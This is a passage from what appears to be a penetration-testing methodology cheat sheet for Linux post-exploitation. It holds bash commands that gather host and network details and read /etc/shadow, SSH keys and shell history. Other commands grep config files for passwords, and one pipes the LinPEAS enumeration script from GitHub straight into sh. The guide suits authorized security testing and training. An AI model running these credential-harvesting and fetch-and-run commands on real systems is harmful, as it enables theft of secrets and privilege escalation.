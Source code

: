 ### System Information Gathering

```bash
# Basic system info
uname -a
cat /etc/*release
lsb_release -a

# Network information
ifconfig
ip addr
netstat -tulpn
route -n

# User information
whoami
id
cat /etc/passwd
cat /etc/shadow
w
last
```

### Credential Harvesting

```bash
# Find password files
find / -name "*.pwd" -o -name "*.pass" -o -name "password*" 2>/dev/null

# Check history files
cat ~/.bash_history
cat ~/.ssh/*

# Look for configuration files with passwords
find / -name "*.conf" -exec grep -H "password" {} \; 2>/dev/null
```

## 🚀 Phase 6: Privilege Escalation

### Enumeration Scripts

```bash
# Automated enumeration
# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Linux Exploit Suggester
./linux-exploit-suggester.sh

# LinEnum
./LinEnum.sh
```

